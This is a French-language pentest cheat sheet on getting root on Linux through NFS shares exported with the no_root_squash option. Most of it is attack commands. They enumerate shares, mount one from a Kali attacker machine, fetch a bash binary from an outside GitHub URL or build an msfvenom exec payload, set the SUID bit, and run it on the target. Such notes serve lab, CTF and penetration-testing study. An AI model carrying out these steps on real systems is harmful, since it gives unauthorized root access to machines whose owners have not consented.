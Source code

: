 # NFS

## Exploitation

L'élément critique pour ce vecteur d'escalade de privilèges est l'option `no_root_squash`

- Enumerer les partages

```sh
showmount -e <target>

cat /etc/exports
```


- Sur votre box Kali, basculez vers votre utilisateur root

- Monter l'un des partages "no_root_squash" sur notre machine attaquante et commencer à construire l'exécutable

```sh
sudo mkdir /mnt/mount_folder

sudo mount -o rw <TARGET_IP>:/<SHARE> /mnt/mount_folder

sudo mount -o rw,vers=3 <TARGET_IP>:/<SHARE> /mnt/mount_folder

sudo mount -t nfs <TARGET_IP>:/<SHARE> /mnt/mount_folder -nolock
```

- Créer un exécutable avec le bit SUID (`chmod +s nfs`) défini et l'exécuter sur le système cible.


```sh
cd /mnt/mount_folder

sudo wget https://github.com/polo-sec/writing/raw/master/Security%20Challenge%20Walkthroughs/Networks%202/bash

sudo chmod +xs bash
```

```sh
cd /mnt/mount_folder
sudo msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o shell.elf
sudo chmod +xs shell.elf
```

```sh
/FULL_PATH/shell.elf
/FULL_PATH/bash
```
